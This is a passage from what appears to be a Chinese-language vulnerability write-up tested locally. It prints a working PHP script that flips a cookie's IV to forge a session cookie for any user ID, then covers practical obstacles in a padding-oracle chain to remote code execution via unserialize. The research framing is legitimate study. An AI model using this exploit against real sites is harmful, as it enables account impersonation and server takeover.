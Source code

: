 在本地:

新注册一个账户 fate0@fatezero.org，得到用户 ID 为 62，利用以下代码即可获取指定 ID 用户的 cookie

```
<?php

if ($argc < 4) {
    print("[*] Usage ".$argv[0]." cookie userid targetid\n");
    return;
}

$cookie = json_decode(base64_decode($argv[1]), true);
$userid = $argv[2];
$targetid = $argv[3];

$iv_a = base64_decode($cookie['iv']);
$p_a = addPadding(serialize($userid));
$p_b = addPadding(serialize($targetid));

$iv_b = base64_encode($iv_a ^ $p_a ^ $p_b);

$cookie['iv'] = $iv_b;

echo base64_encode(json_encode($cookie))."\n";

function addPadding($value) {
    $block_size = 32;
    $pad = $block_size - (strlen($value) % $block_size);
    return $value.str_repeat(chr($pad), $pad);
}
?>

```

运行结果

![enter image description here](img/img6_u68_png.jpg)

### 测试 2 利用 padding oracle 来实现 RCE

我修改原作者生成 payload 的脚本，对比生成的 payload 和原作者给的 payload，发现原作者把一些无用的 protect 属性给去除了， payload 显得比较短，打算直接使用作者给的 payload。

但是！原作者的 payload 留了个大坑，正常访问下，index.php 的工作目录是 web 目录， 但是 unserialize cookie 之后产生的 BufferHandler 对象和字符串做运算，而 BufferHandler 类没实现 __toString 魔术方法， 从而导致触发 fatal error，使用 register_shutdown_function 注册的回调函数$this->close 被调用，但是！在我测试环境`ubuntu 12.04 64bit + php 5.3.10`下，触发异常导致$this->close 被调用的时候，工作环境被切换到了根路径'/'，从而导致写文件失败。

另外一个坑是 mac 校验处，本来以为`(10/16.0) ** 3 = 0.244140625`，开头连续三个数字字符的概率还算低，结果跑一遍才发现远远低估 mac 校验这里的情况了，比如说正确的校验值是`79e58c735e1105d7222f321031a782251da88ebd08cdc1de926ead2df4b9d3fd`， 这种情况就让人很无奈。在实际情况中，正确的做法是换 payload，在这里我就直接换 key， 最后把 key 换成`Http://WeiBo.COM/Fatez3r0/home?Y`。 由于程序推 ciphertext，推 cv 的关联性，以及推 1 byte cv 的随机性，多线程在此处意义不大。
